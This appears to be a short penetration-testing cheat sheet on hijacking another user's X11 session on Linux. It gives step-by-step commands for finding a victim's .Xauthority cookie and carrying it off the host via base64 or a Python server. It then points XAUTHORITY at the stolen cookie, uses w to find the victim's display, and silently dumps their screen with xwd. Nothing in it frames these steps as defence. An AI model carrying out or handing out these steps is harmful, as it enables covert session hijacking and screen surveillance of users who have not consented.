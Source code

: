 ### Files present in home directory:

### .xsession, .Xauthority

### Check for the LightDM user in /etc/passwd for further confirmation.

### The presence of these files in a user's home directory might indicate that the user has already authenticated and possibly contain sensitive information to view.

## Steps:

#### 1) Transfer the .Xauthority file to our machine (cat .Xauthority | base64) then (echo 'BASE64_STRING' > /tmp/Xauthority) or just transfer it via a python server.

#### 2) export XAUTHORITY=/tmp/Xauthority (Set the cookie by pointing the environment variable to our cookie file)

#### 3) w (Check which display the user we are trying to impersonate is using)

#### 4) xwd (Dumps an image of an x window, to get a screenshot in its current state.

### Example command:

#### xwd -root -screen -silent -display :0 > /tmp/screen.xwd (-root: select root window, -screen: send GetImage request to root window, -silent: Do it silently, -display: specify the server to connect to
